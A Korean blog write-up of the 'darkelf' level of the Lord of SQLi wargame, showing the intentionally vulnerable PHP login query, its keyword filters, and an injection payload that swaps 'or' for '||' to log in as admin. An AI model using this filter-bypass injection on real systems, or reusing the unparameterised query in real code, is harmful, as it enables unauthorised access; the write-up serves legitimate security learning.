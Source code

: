 ```yaml
---
layout: post
title: "LoS darkelf"
author: "isanghyeon"
tags: LordofSQLi
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **darkelf** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
> ```php
> preg_match('/or|and/i', $_GET[pw])
> ```
- #### Solve Conditions
> ```php
> if($result['id'] == 'admin') solve("darkelf"); 
> ```

|query|parms1|params2|
|:--:|:--:|:--:|
|select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'|id='guest'|pw='{$_GET[pw]}'|

```$_GET[pw]```의 값에 대해 ``` '/or/and/i'```를 필터링하고 있다.  
따라서 MySQL에서 지원하는 or, and 와 같은 역할을 하는 '||', '&&'로 변경하여 query를 작성할 수 있다.  

```sql
select id from prob_darkelf where id='guest' and pw='nop' || id='admin'#'
```

<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/darkelf | Operator bypass |